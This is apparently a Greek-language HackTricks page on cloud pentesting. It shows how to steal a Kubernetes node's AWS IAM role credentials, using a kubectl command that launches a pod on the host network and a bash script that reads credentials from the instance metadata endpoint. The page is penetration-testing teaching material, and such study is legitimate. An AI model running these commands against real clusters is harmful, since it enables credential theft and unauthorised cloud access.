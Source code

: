 Η προηγούμενη ενότητα αφορούσε το πώς να κλέψετε τους ρόλους IAM με τις pods, αλλά σημειώστε ότι ένας **κόμβος του** K8s cluster θα είναι ένα **παράδειγμα μέσα στο cloud**. Αυτό σημαίνει ότι είναι πολύ πιθανό ο κόμβος να **έχει έναν νέο ρόλο IAM που μπορείτε να κλέψετε** (_σημειώστε ότι συνήθως όλοι οι κόμβοι ενός K8s cluster θα έχουν τον ίδιο ρόλο IAM, οπότε μπορεί να μην αξίζει να προσπαθήσετε να ελέγξετε κάθε κόμβο_).

Ωστόσο, υπάρχει ένα σημαντικό απαιτούμενο για να έχετε πρόσβαση στο metadata endpoint από τον κόμβο, πρέπει να είστε στον κόμβο (ssh session;) ή τουλάχιστον να έχετε το ίδιο δίκτυο:
```bash
kubectl run NodeIAMStealer --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostNetwork": true, "containers":[{"name":"1","image":"alpine","stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent"}]}}'
```
### Κλέψτε το IAM Role Token

Προηγουμένως έχουμε συζητήσει πώς να **συνδέσουμε IAM Roles σε Pods** ή ακόμα και πώς να **δραπετεύσουμε στον Node για να κλέψουμε το IAM Role** που έχει συνδεθεί με το στιγμιότυπο.

Μπορείτε να χρησιμοποιήσετε τον παρακάτω κώδικα για να **κλέψετε** τα νέα σας **διαπιστευτήρια IAM role**:
```bash
IAM_ROLE_NAME=$(curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ 2>/dev/null || wget  http://169.254.169.254/latest/meta-data/iam/security-credentials/ -O - 2>/dev/null)
if [ "$IAM_ROLE_NAME" ]; then
echo "IAM Role discovered: $IAM_ROLE_NAME"
if ! echo "$IAM_ROLE_NAME" | grep -q "empty role"; then
echo "Credentials:"
curl "http://169.254.169.254/latest/meta-data/iam/security-credentials/$IAM_ROLE_NAME" 2>/dev/null || wget "http://169.254.169.254/latest/meta-data/iam/security-credentials/$IAM_ROLE_NAME" -O - 2>/dev/null
fi
fi
```
## Αναφορές

* [https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity](https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity)
* [https://medium.com/zeotap-customer-intelligence-unleashed/gke-workload-identity-a-secure-way-for-gke-applications-to-access-gcp-services-f880f4e74e8c](https://medium.com/zeotap-customer-intelligence-unleashed/gke-workload-identity-a-secure-way-for-gke-applications-to-access-gcp-services-f880f4e74e8c)
* [https://blogs.halodoc.io/iam-roles-for-service-accounts-2/](https://blogs.halodoc.io/iam-roles-for-service-accounts-2/)

<details><summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
